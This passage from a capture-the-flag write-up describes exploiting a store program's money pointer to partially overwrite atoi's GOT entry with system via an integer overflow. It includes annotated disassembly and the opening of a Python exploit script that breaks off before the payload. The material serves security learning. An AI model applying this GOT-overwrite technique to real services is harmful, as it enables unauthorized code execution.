 ```
pwn()
```

This allowed me to write to `atoi@got`! Or so I thought. The problem is that `atoi@got` contains `0xf74e2880`, which is atoi in libc. This number is interpreted by the program as a negative amount of money. When trying to modify the value at `atoi@got`, the value it contains is passed via this block of code:

```
 8048f6b: mov    edx,DWORD PTR ds:0x804b280 ; grab location of money DWORD from money pointer (it will point to atoi@got)
 8048f71: imul   eax,DWORD PTR [esi+0x74]   ; eax contains amount of item to buy, multiply it by price of item
 8048f75: mov    ecx,DWORD PTR [edx]        ; grab money amount
 8048f77: sub    ecx,eax                    ; subtract cost from amount of money
 8048f79: js     8049008 <exit@plt+0x838>   ; jump-if-sign: if the amount of leftover money is negative, abort the transaction!
```

Since I needed to modify `atoi` (0xf74e2880) to `system` (0xf74f0c30), this `sub ecx,eax / js` block above would *never* let me modify the pointer in the global offset table to `system`. Looking back, the solution is easy, but I could not figure it out late at night. 

Take one step back
------------------

After the CTF had ended, it dawned on me: I did not have to modify the got pointer of `atoi` completely, I could modify *part* of it! After all, if I move one byte back, the value I would be modifying would be `0x4f0c30xx`; this is still a positive number! Of course, it is possible that `atoi` is located at an address such as `0xf7dff880`; in this case, it still would not work.

I updated the poc once more, to make the money object point to `atoi@got-1`. I needed to add 0x50dc3000-0x4ff88000 = 14921728 to atoi so that it points to system (at least, locally, on my box). This is done by buying item 2. It's price is set to `0x7fffffff`. Multiplying that by 14921728 gives an integer overflow to 0xff1c5000. The latter value will be subtracted from the value at atoi-1, conveniently updating the right portion of atoi!

```python
from socket import *
import struct, telnetlib

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)

def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
    s.connect(('localhost', 6666))
    #s.connect(('146.148.60.107', 6666))
    
    # pause to allow gdb to attach
    raw_input()
    
    # register store
```